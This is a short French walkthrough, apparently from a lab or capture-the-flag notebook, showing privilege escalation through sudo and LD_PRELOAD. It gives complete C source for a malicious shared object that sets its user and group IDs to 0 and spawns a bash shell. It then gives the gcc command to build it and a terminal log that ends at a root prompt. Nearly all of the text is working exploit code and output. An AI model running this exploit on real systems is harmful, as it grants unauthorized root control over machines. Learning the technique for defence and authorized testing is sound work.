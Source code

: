 On va commencer par ce créer un shell:
```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
  unsetenv("LD_PRELOAD");
  setgid(0);
  setuid(0);
  system("/bin/bash");
}
```
Ensuite on le compile:
```
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
```
et plus qu'a l'executer :
```
saad@m4lware:/tmp$ sudo LD_PRELOAD=/tmp/shell.so ping 
root@m4lware:/tmp#
```
Et nous voila root :)
